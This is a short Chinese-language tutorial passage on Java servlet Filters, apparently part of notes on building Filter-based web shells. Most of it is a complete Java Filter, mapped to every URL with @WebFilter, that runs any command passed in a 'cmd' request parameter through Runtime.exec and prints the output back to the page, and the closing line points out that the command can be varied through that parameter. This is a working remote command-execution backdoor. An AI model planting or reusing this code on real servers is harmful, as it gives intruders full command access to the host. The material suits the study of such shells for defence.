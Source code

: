 和servlet一样，这个还具有一个init接口和destroy接口

![image-20221109141328882](images/1.png)

这里为了方便，我就直接用注解写一个Filter，访问的所有web资源都会经过这个filter

```
package filter;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;

@WebFilter("/*")
public class TestFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("第一个Filter 初始化创建");
    }
    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        if(servletRequest.getParameter("cmd")!=null) {
             Process cmd = Runtime.getRuntime().exec(servletRequest.getParameter("cmd"));
             InputStream inputStream = cmd.getInputStream();
             InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
             BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
             String line;
             while ((line = bufferedReader.readLine()) != null) {
                    servletResponse.getWriter().println(line);
                }
            }
            filterChain.doFilter(servletRequest,servletResponse);
        }
    @Override
    public void destroy() {
    }
}）
```

这个方法有request和response对象，所以我们可以直接在页面拿到输出值，也可以用参数改变命令

